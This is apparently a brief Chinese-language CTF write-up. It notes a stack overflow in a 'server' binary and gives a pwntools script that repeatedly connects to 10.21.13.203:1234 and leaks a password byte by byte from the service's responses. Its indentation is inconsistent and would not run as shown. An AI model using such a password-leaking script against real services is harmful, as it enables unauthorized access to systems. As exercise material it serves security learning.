


明显的栈溢出，但是最简单的做法就是直接泄露出密码：
```PY
#!/usr/bin/env python
# coding=utf-8

from pwn import *
passwd = ""
#context.log_level = "debug"
for i in range(32):
    try:
        p = remote("10.21.13.203",1234)    #process("./server")
        p.send(passwd.ljust(22,'\xff'))
        tmp = 0xff - ord(p.recvuntil('bye~')[63])
        passwd += chr(tmp)
        log.info(passwd)
    except:
        pass
	finally:
		p.shutdown()
```




